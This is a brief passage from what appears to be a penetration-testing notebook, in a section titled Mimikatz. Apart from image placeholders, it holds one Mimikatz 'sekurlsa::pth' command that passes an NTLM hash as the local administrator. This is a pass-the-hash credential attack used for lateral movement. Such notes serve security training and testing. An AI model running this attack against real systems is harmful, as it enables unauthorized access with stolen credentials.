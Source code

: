 #### 4.2.4.1 Mimikatz

![](images/yushentou/15899757279467.png)

![](images/yushentou/15899757323877.png)


```bash
mimikatz # sekurlsa::pth /user:administrator /domain:. /ntlm:c5113714efbff7fa196f2e2b50938a8f

```

![](images/yushentou/15899757438298.png)


